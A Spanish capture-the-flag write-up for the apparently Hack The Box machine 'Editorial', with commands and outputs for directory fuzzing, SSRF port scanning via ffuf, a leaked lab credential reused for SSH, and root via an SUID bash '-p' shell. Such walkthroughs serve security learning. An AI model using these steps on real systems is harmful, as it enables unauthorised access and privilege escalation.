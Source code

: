 # User flag

Para empezar, ejecutamos un nmap sobre la IP de la máquina target con lo que vemos cuales son los puertos que tiene abiertos.

![Nmap](Images/Nmap.png)

Observamos que el puerto 80 está abierto por lo que consultamos la página web.
Como de costumbre, hacemos fuzzing de directorios y encontramos un potencial vector de ataque en el directiorio `upload`.
```bash
gobuster dir -u http://editorial.htb  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200
```
![upload](Images/upload.png)

Después de intentar subir varios tipos de archivos con payloads maliciosos sin éxito, me fijé en el otro campo de input, que nos permite insertar una URL. Lo primero que se me ocurrió fue ejecutar un SSRF buscando archivos de configuración típicos.



Después de que esto no funcionara decidí probar con los puertos. Para ello capturé la petición con Burpsuite, creé un archivo con todos los puertos y utilicé `ffuf`para ver si encontraba algun puerto accesible.
```bash
ffuf -u http://editorial.htb/upload-cover -X POST -request request.txr -w ports.txt -fs 61
```
![ffuf](Images/ffuf.png)

Si lanzamos la petición haciendo referencia a este puerto y capturamos la respuesta con Burpsuite, vemos que se nos proporciona un endpoint específico.

![response ssrf](Images/response%20ssrf.png)

Si visitamos dicho endpoint en el navegador se nos descarga un archivo con el siguiente contenido:
```bash
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```
 Después de visitar varios de los endpoints realizando el SSRF de la misma forma observamos que en al hacer la petición para el endpoint `http://localhost:5000/api/latest/metadata/messages/authors` encontramos el siguiente mensaje:
```bash
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```
Si probamos a acceder con ssh usando las credenciales del mensaje tenemos éxito.

![reverseshell](Images/reverseshell.png)

Y ya con esto podemos obtener la flag de user.

![userflag](Images/userflag.png)

# Root flag
Para empezar la escalada de privilegios intenté ejecutar `sudo -l` pero nuestro usuario no está en el grupo de sudoers. Posteriormente listé el directorio `/home` encontrando el usuario `prod`.

Para facilitar el proceso de escalada de privilegios utilizamos **linpeas**. Al ejecutarlo encontramos lo siguiente: 

![linpeas](Images/linpeas.png)

El archivo `/usr/bin/bash` tiene el SUID bit activo, lo que significa que culquier usuario que ejecute el archivo lo hará con los permisos del dueño del archivo, en este caso root. 

Así entonces, si ejecutamos el comando `/usr/bin/bash -p` spawneamos una nueva shell con privilegios de root.

![rootflag](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/rootflag.png)

